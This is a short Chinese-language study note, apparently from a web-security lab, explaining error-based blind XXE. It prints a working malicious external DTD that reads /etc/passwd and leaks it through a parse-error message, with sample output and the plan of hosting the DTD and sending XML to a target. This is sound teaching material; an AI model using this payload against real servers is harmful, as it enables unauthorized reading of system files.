

# 知识点
利用blind XXE 的另一种方法是触发 XML 解析错误，其中错误消息包含您希望检索的敏感数据。如果应用程序在其响应中返回结果错误消息，这将是有效的。<br />您可以使用恶意外部 DTD 触发包含 /etc/passwd 文件内容的 XML 解析错误消息，如下所示：
```xml
<!ENTITY % file SYSTEM "file:///etc/passwd">
<!ENTITY % eval "<!ENTITY &#x25; error SYSTEM 'file:///nonexistent/%file;'>">
%eval;
%error;
```
此 DTD 执行以下步骤：

- 定义一个名为 file 的 XML 参数实体，包含 /etc/passwd 文件的内容。
- 定义一个名为 eval 的 XML 参数实体，其中包含另一个名为 error 的 XML 参数实体的动态声明。将通过加载名称包含文件实体值的不存在文件来评估错误实体。
- 使用 eval 实体，这会导致执行错误实体的动态声明。
- 使用错误实体，以便通过尝试加载不存在的文件来评估其值，从而导致错误消息包含不存在文件的名称，即 /etc/passwd 文件的内容。

调用恶意外部 DTD 将导致如下错误消息：
```xml
java.io.FileNotFoundException: /nonexistent/root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
...
```


# 思路
将外部DTD存储在本地服务器中<br /><br />发送xml给目标服务器<br />
